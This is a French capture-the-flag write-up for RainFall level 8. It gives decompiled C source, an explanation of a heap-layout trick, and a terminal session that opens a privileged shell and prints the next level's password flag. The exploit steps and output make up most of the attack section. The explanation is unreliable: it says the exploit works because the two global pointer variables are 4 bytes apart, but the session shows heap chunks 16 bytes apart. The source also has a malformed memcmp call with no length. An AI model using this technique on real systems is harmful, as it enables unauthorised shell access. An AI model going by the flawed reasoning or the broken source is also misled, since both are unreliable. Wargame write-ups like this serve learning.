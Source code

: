## Level 8

pass : `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9`

## Source :

```c
#include <stdio.h>
#include <string.h>

char	*auth = NULL;  // 0x08049aac
char	*service = NULL;  // 0x08049ab0

int	main() {  // 0x08048564
	char	buf[128];  // esp+0x20 / size = 0xa0 - 0x20

	while (1) {
		printf("%p, %p \n", auth, service);
		if (fgets(buf, 128, stdin) == 0)
			break;
		if (memcmp(buf, "auth ", 5) == 0) {
			auth = malloc(4);
			*auth = '\0';
			if (strlen(&buf[5]) <= 30) {
				strcpy(auth, &buf[5]);
			}
		}
		if (memcmp(buf, "reset", 5) == 0) {
			free(auth);
		}
		if (memcmp(buf, "service", 7) == 0) {
			service = strdup(&buf[7]);
		}
		if (memcmp(buf, "login") == 0) {
			if (auth[32] == '\0') {
				system("/bin/sh");
			} else {
				fwrite("Password:\n", 1, 10, stdout);
			}
		}
	}
	return (0);
}
```

## Recherche :

Pour que l'on lance `system("/bin/sh");`, il faut que `auth[32] == '\0'`, mais comme on ne peut écrire que 30 caractères sur `auth`, on va passer par le fait que les deux variables `auth` et `service` sont contingentes, `0x08049ab0 - 0x08049aac = 4`, donc `auth[32] == service[28]`. On va donc mettre dans `service` une chaine de 28 caractères, qui sera directement complété par `\0` avec `strdup()`.
Enfin, un coup de `login` et on est bon.

## Exploit

```shell
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service 0123456789012345678901234567
0x804a008, 0x804a018
login
$ whoami
level9
$ cd ../level9
$ cat .pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
